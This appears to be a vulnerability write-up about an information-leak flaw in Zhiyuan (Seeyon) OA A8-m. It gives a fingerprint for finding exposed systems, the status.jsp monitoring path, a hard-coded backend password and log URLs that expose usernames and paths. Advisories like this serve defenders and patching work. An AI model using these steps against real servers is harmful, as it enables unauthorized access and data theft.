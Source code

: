 # Zhiyuan OA A8 status.jsp Information leakage vulnerability

## Vulnerability Description

Zhiyuan OA A8-m has leaked information on status monitoring pages, where attackers can obtain sensitive information such as website paths and usernames, and further attacks.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A8-m</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="A8-m"</span>

## Vulnerability reappears

Visit the monitoring page

```plain
/seeyon/management/status.jsp
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-32.png)



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">The backend password is WLCCYBD@SEEYON</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">After logging in, you can get some sensitive information through the following url</span>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-33.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-34.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-35.png)